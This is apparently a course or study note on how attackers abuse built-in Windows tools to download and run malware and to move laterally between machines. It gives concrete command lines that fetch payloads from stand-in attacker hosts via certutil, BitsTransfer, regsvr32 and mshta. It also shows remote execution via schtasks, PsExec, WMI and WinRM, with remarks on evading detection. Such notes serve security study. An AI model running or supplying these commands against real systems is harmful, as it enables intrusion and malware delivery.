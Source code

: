 # Windows


## Windows tools to run malware

Windows has some tools which facilitate running malware:

**CertUtil.exe  (tool to manage certificates)**
    - can download certificate (PEM) from url
    - `certutil -urlcache -f <url> malicious1.txt` -> download
    - `certutil -decode malicious1.txt malicious.gzip` decode

**BitsTransfer (Service "Background Intelligent Transfer Service)**
    - Service to transfer data between server and client
    - via powershell download file: `Start-BitsTransfer -Source http://bad-server.tld/payload.exe -Destination %APPDATA%/o.exe`

**Msiexec (for msi)**
    - to run msi files
    - Advantages: process is msiexec and considered legitimate, payload is in msi file and usually considered clean

**regsvr32.exe (register dll's)**
    - File can be downloaded and executed. Example: `regsvr32 /u /s /i:https://too-evil.com/payload.php scrobj.dll`
        - process would be regsvr32, which is usually considered legitimate

**mshta.exe (tool to run hta scripts)**
    - HTA scripts are html like applications that can run outside the browsers
    - example: `mshta http://too-evil.com/payload.php` (process will be mshta.exe which is considered legitimate)

**schtasks (Windows task scheduler)**
    - Service "Task Scheduler"
    - is not only used to run but also to persist malware


## Windows tools for lateral movement

- Create a scheduled task (on remote system)`
    - `schtasks /create /s {IP} /tn {name} /u {user} /sc {frequency} /p {password} /st {time} /sd {date} {command}`
- Creating System services
    - `sc \\IP create Service binPath=<command>`
- PsExec
    - `psexec \\test.domain -u Domain\User -p Password ipconfig`
    - Workflow:
        - Uploads PSEXESVC.exe to the $ADMIN shared folder
        - Remotely creates a service that will run PSEXESVC.exe
        - Remotely starts the service using the Windows service control manager
        - Execute our arbitrary commands/programs under a parent process of PSEXESVC.exe
        - Redirects the input/output of the process via named pipes
        - When complete, the PsExec service will be stopped and removed
    - Varia: 
        - Windows systems have hidden network shares that are accessible only to adminis. Examples include C$, ADMIN$, and IPC$. (might be abused to transfer binarries via SMB and run them)
- WMI
    - `wmic /node:target.domain process call create "C:\Windows\System32\cmd.exe /c payload.exe"`
- Windows Remote Management (WinRM)
    - `winrs -r:EXAMPLE.lab.local -u:DOMAIN\user -p:password calc.exe`
    - `Invoke-Command -ComputerName TARGET -ScriptBlock { dir c:\ }` via powershell
- DCOM
    - DCOM is a way to execute code on a remote machine. (is less easily detected than default tools)
    - Examples see "06 Lateral Movement.pdf"
        - run a excel on another machine (and excel runs macro)
    - DCOM can also be used to start/stop services, get system info, shut down system etc.

*Remark: some of the techniques,tools can also be used for persistence or running code locally*
*Remark2: Check Double-Hop-Problem with Network logons which makes it more difficult to jump then to another host*